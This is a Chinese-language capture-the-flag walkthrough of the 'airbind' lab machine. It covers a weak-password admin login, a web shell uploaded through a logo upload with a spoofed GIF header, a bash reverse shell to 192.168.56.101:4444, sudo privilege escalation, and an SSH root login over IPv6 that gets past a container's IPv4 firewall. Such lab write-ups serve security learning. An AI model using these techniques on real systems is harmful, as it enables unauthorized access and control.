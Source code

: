 # airbind
nmap扫描
![](vx_images/234382382493521.png)
web是一个登录点弱口令进admin/admin
有版本信息
![](vx_images/425507790245949.png)
去找下历史漏洞
exp:
![](vx_images/518546077752312.png)

![](vx_images/516298800800878.png)
上传logo文件然后修改mime头,添加GIF89a
上传成功后在/images/uploads/logos下找到上传文件
蚁剑连接
![](vx_images/595175733084056.png)
弹`个shell回来
```
/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/4444 0>&1'
```
sudo -l提权
![](vx_images/476212043261304.png)
获得的是user.txt
![](vx_images/400375135762355.png)
看了一下wp,原来是在容器中
检测方法:
检查硬件信息​（需要 root）
```
dmidecode -t system 2>/dev/null | grep -E 'Manufacturer|Product'
```
检查特定文件
```
# Docker 容器
ls /.dockerenv  # 存在则一定是 Docker 容器

# LXC 容器
ls /dev/lxc/    # 存在则一定是 LXC 容器
```
使用linpeas.sh脚本
这里是处于lxc容器中
![](vx_images/358956073848343.png)
查一下lxc的逃逸方法
没成功
想着直接用ssh的私钥登录试一下,结果卡着不动(开始时扫描到22端口被过滤)
看了其他人的方法
使用ipv6连接登录
找到目标机的ipv地址
```
ping6 -I eth1 ff02::1
nmap -6 -e eth1 fe80::a00:27ff:feb7:d253/64
```
![](vx_images/470913132191425.png)

ssh连接(%eth0:在 IPv6 地址后添加 % 和接口名称)
```
ssh root@fe80::a00:27ff:feb7:d253%eth0 -i rsa
```
![](vx_images/218297905761309.png)
原因在于防火墙配置
ipv4:
![](vx_images/485155291764120.png)
ipv6:
![](vx_images/11012159497930.png)






